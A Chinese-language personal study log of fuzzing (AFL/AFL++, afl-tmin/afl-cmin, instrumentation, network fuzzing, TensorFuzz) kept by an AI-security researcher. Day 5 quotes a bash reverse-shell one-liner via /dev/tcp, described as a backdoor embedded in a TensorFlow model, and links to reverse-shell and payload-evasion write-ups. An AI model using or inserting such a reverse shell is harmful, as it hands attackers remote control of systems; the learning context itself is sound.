

# Daily Study of Fuzz

> 从`README`可以发现我本身并不会传统安全相关技术，但是在室友的熏陶和公司项目（AI赋能安全相关）的支持下，我开始了我的Fuzz学习之旅。
>
> 我能感觉到，AI赋能安全必然会到来，作为一个AI安全的研究人员，我觉得不仅需要掌握AI内生安全的知识，同时应该掌握传统安全的知识。不过很遗憾，我们实验室现在在这两个方向上是相对孤立的，我作为AI内生安全的研究人员，被选择去支持AI赋能安全相关工作，得此契机，我决定鼓起勇气更加深入地学习一下Fuzz相关知识。我不期望我能像那些大佬一样，成为这个领域的专家，我的目标是，传统安全的专家给我一个攻击点，我能对这个方向有一定的认识，从而发现其与AI之间的结合点。
>
> 当然，我最近也在思考，对于一家企业，AI安全能力在软件开发流程（模型部署）的最佳实践位置，如何能够保证AI的安全性，又不会改变原有的软件开发流程，不增加开发人员的工作量。
>
> 一起加油吧，Ceres！


## Learning Path

### Day 1

#### Notes


学习链接：https://foxglovesecurity.com/2016/03/15/fuzzing-workflows-a-fuzz-job-from-start-to-finish/

该链接主要使用 `AFL++` 来对 `YAML-CPP` 工程进行 Fuzz，**最新版本的 `YAML-CPP` 好像没有 Crash**，效果复现不出来，后面换到博主提供的版本继续复现博主的实验。

[@BrandonPrry](https://twitter.com/BrandonPrry) 在博客中分享了一个通过并行加快 `afl-tmin` 的工具，将其成为 `afl-ptmin` ，其代码如下：

```bash
#!/bin/bash
cores=$1
inputdir=$2
outputdir=$3
pids=""
total=`ls $inputdir | wc -l`

for k in `seq 1 $cores $total`
do
  for i in `seq 0 $(expr $cores - 1)`
  do
    file=`ls -Sr $inputdir | sed $(expr $i + $k)"q;d"`
    echo $file
    afl-tmin -i $inputdir/$file -o $outputdir/$file -- ~/parse &
  done

  wait
done
```

#### 思考问题

- Fuzz是什么，主要的流程是什么，关键点是什么？ ❓
- `AFL` 的原理？它和还有一些 Fuzz 工具有什么异同点？ ❓
- `afl-cmin` 和 `afl-tmin` 两个工具他们的区别的是什么？ ✅
- GDB 插件 `exploitable` 和 `CrashWalk` 分别是什么作用？ ❓
- `afl-cov` 是如何实现的？使用的时候出现报错是为什么？❓


### Day 2

#### Notes

解决问题： `afl-cmin` 和 `afl-tmin` 两个工具他们的区别的是什么？

参考链接：https://xidoo.top/2022/01/afl-white-book/   （参考这篇博客，能对 `afl-tmin` 和 `afl-cmin` 两个工具有个大概的认知）

参考链接：[AFL漏洞挖掘技术漫谈（一）：用AFL开始你的第一次Fuzzing](https://www.freebuf.com/vuls/191536.html)

##### `afl-tmin` 工具

`afl-tmin` 在保证测试用例的代码执行路径不变的情况下，尽可能地减小测试用例的大小。


##### `afl-cmin` 工具

`afl-cmin` 在保证所有测试用例覆盖的代码执行路径不变的情况下，尽可能地减少测试用例的数量；


#### 思考问题

- 是否需要从源码级别对 `afl-tmin` 和 `afl-cmin` 两个工具有一定了解？这两个工具是否有优化的可能性和必要？✅

  网上关于这两个工具的讨论非常得少，所以暂时不在这一块下功夫。

- 黑盒模式是如何实现的？ ❓

- 什么是插装，如何实现的？ ✅

  一开始对”**插桩**“的概念了解的太少，甚至连名字都没有打对。

- `gcc` 和 `llvm` 两种编译模式的区别，为什么 `llvm` 的编译速度快很多？ ✅


### Day 3

#### Notes

解决问题：如何使用 `afl-fuzz	` 对网络传输应用进行模糊测试？

参考链接：https://www.secpulse.com/archives/71903.html

主要利用 `preeny` 对输入进行重定向，将 `stdin` 中的输入重定向到 `sock` 的输入，从而配合 `afl-fuzz` 对网络传输应用进行模糊测试。

复现时遇到的问题：

1. 按照作者的步骤进行复现，发现最后的模糊测试样例

#### 思考问题

- `LD_PRELOAD` 环境变量的作用是什么？ ✅

  参考链接：https://blog.csdn.net/iEearth/article/details/49952047

  主要用于动态的加载；

- `afl-fuzz` 的原理？  ✅

- 污点分析的原理和作用？  ❓

- `afl` 的 `persistent` 模式详解？  ❓


### Day 4

#### Notes

解决问题：`afl-fuzz` 的原理？

参考链接：https://jackfromeast.site/2021-02/AFL-FUZZ.html

参考链接：https://www.jianshu.com/p/2da850f32b2d

(<u>这个问题比较复杂，现阶段主要通过博客了解一些基本的原理，后续再仔细阅读</u>) 上面两篇博客主要介绍了 **`afl` 的路径覆盖率的计算**和**`fuzz-server` 模式**；

对 `afl` 的原理有了基本的认识，后面还需要阅读 `afl` 的 `readme` 文件来增加对这方面的认识；

####  思考问题

- `afl-fuzz` 的 `fuzz-server` 模式是如何节省程序调用的资源的？ ❓
- `C++` 的管道通信机制？ ❓


### Day 5

#### Notes

参考链接：https://security.tencent.com/index.php/blog/msg/130

> 思考：AI 框架的安全问题，已经在 Blade 实验室和360公司等组织都有了很多尝试，那么如何在这个方向上破局呢？看不到前面的路径；

`Tensorflow` 模型中嵌入反连后门的问题；里面涉及到的反连后门的 `shellcode` 如下：

```shell
`(/bin/bash -i > /dev/tcp/127.0.0.1:8888 0<&1 2>&1) &>/dev/null` &
```

翻阅相关的资料发现，这是一个利用 `bash` 来反弹 `shell` 的操作；

#### 思考问题

- 什么是 `反连后门` ？  ✅

  参考链接：https://www.anquanke.com/post/id/92401 —— `python` 反弹 `shell` ；

  参考链接：https://xz.aliyun.com/t/9488 —— `linux` 上反弹 `shell` 的各种方式；

  参考链接：https://blog.csdn.net/qq_39101049/article/details/96191861 —— `windows` 上反弹 `shell` 的各种方式；

  参考链接：https://xz.aliyun.com/t/5768#toc-17 —— `payload` 免杀的一些知识；

  **反向连接**：通常的网络连接程序是由客户端通过服务器开放的端口连接到服务器，反向连接是客户端打开服务器端口，由服务器主动连接客户端。反向连接这种方式常用于绕过防火墙和路由器安全限制；


### Day 6

#### Notes

1. 阅读 `AFL++` 的 FAQ
   参考链接：https://github.com/AFLplusplus/AFLplusplus/blob/stable/docs/FAQ.md
2. Awesome-Fuzzing 参考链接：https://github.com/secfigo/Awesome-Fuzzing
3. Fuzzing Book 参考链接：https://www.fuzzingbook.org/
4. Fuzzing Benchmark 参考链接：https://www.fuzzbench.com/reports/2022-02-15-main-fuzzers/index.html
5. 学习 `AFL Tutorial` ，参考链接：https://aflplus.plus/docs/tutorials/libxml2_tutorial/ 

#### 思考问题

- Harness 指的是什么？在 `fuzz` 整个过程中的作用是什么？ ❓

- `deterministic stage` 和 `random stage` 在 `afl` 中的区别？ ❓

- `afl` 的 `forking` 机制？  ❓

- 如何选择 `persistent-mode` 的入口？ ❓

- `AFL_USE_UBSAN` 和 `AFL_USE_ASAN` 两个环境变量的作用是什么？ ❓ 

- `afl` 中的 `@@` 占位符的作用？ ✅

  部分程序需要从文件接受输入，`afl-fuzz` 会在模糊测试的过程中会将 `@@` 占位符替换为目标文件的名称；

- `nm` 指令的作用？ ✅

  从它的输出来看，这应该是一个用来显示二进制文件符号表的工具；

- `PIE` 二进制文件是什么？  ✅

  `Position-Independent Executable`，完全由位置无关代码所组成的可执行二进制文件；

  参考链接：https://www.cnblogs.com/sword03/p/9385660.html

  可以使用 `checksec` 指令来查看二进制文件是否是一个开启 `PIE` 保护的文件；

- `afl-qemu-trace` 的作用？   ✅

  `afl-qemu-trace` 用来查看程序加载后的基地址，主要用来配合 `QEMU Persistent` 模式使用，用来确定目标函数的实际地址，从而对目标函数做模糊测试的加速；

  

### Day 7

> 通过这一块的学习，对AFL的源码有了整体的认识，但是很多细节还没有掌握清楚，需要进一步地去阅读源码，加强学习；

#### Notes

1. 学习 AFL 源码；

   参考链接1：https://paper.seebug.org/1732/

   参考链接2：https://eternalsakura13.com/2020/08/23/afl/

2. AFL 插桩的汇编代码位置：

   ```c
   /*
   			If we're in the right mood for instrumenting, check for function
          names or conditional labels. This is a bit messy, but in essence,
          we want to catch:
   
            ^main:      - function entry point (always instrumented)
            ^.L0:       - GCC branch label
            ^.LBB0_0:   - clang branch label (but only in clang mode)
            ^\tjnz foo  - conditional branches
   
          ...but not:
   
            ^# BB#0:    - clang comments
            ^ # BB#0:   - ditto
            ^.Ltmp0:    - clang non-branch labels
            ^.LC0       - GCC non-branch labels
            ^.LBB0_0:   - ditto (when in GCC mode)
            ^\tjmp foo  - non-conditional jumps
   *
   ```

3. AFL的 `llvm_mode` 可以实现编译器级别的插桩，可以代替 `afl-gcc` 或 `afl-clang` 使用的比较 ”粗暴“ 的汇编级别的重写的方法，且具备如下几个又是：

   1. 编译器可以进行很多优化以提升效率；
   2. 可以实现CPU无关，可以在非X86架构上进行fuzz；
   3. 可以更好地处理多线程目标；

#### 思考问题

- gcc 和 llvm 两种编译器的区别？会对程序产生什么影响？✅

  llvm 最大的特点是将编译器的前后端进行了分离；不同的前后端使用统一的中间代码，使得AFL更容易地在中间代码层面进行插桩；对程序本身看起来并没有太多的影响，而是对新语言、新硬件上面的开发带来了开发的便利。

  

- `afl-as.c` 中为什么要 `fork` 一个子进程来完成插桩的过程？❓

- 为什么插桩只在 `.text` 段进行插桩？✅

  大概是因为 AFL 只在代码段中进行插桩；

- AFL 插桩位置的规则为什么是这样的？对AFL的整个插桩过程还是不够清晰？❓

- OpenBSD 中的 `.p2align` 标志？❓

- `afl-fuzz.c` 中的 `calibrate_case` 函数的作用？它需要排除的错误 test case 是哪一类？❓


### Day 8

> TensorFuzz 这篇文章其实早就有读过，这次以fuzz的视角重新理解这篇文章，去思考neural fuzz这一块工作现阶段的弊端，以及我们能做的改进点。

#### Notes

1. 学习 TensorFuzz （搜索tensorfuzz跳转到tensorfuzz这篇文章的阅读笔记）

   文章链接：https://arxiv.org/abs/1807.10875

   文章代码：https://github.com/brain-research/tensorfuzz

2. TensorFuzz 中开源的 `dcgan_fuzzer` 、 `nan_fuzzer` 和 `quantized_fuzzer` 三个 fuzzer 示例，分别来发现神经网络中 “loss梯度异常”、“出现NAN值” 和 “量化后模型行为异常” 三种问题。但是他在 “**覆盖率的定义上**” 和 “**fuzz的目标上**” 和传统的fuzz有非常大的区别。

3. 存在的问题：

   1. 如何更好地定义向量层面的覆盖率；
   2. 如何更简洁地定义、整合模型上fuzz的目标；
   3. 如何更快地开始fuzz；

#### 思考问题

- 如何能将传统fuzz和神经网路更好地结合？通过fuzz的思想去检测神经网络中的问题，通过神经网络去辅助更好更快地fuzz？
